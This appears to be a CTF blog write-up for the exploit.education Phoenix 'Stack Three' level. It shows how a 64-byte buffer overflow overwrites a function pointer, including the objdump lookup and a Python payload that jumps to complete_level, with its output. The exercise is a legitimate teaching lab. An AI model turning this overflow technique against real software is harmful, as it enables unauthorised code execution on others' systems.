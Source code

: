 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 3

Write-up for: [https://exploit.education/phoenix/stack-three/](Stack Three)

<!--more-->

This is again very similar, but this time we are overwriting a function pointer via
stdin.

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer @ 0x41414141
Segmentation fault
```

The buffer is again 64 bytes large. Thus we can precisely target the function pointer value.
Where do we want to jump instead? Looking at the symbols we can see a function called `complete_level`:

```
objdump -t stack-three
08048535 g     F .text  00000020 complete_level
```

Since we have no memory protection, let's just jump there

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "\x08\x04\x85\x35"[::-1]' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!ongratulations, you've finished phoenix/stack-three :-) Well done!

```

Don't forget the little endianness ;)
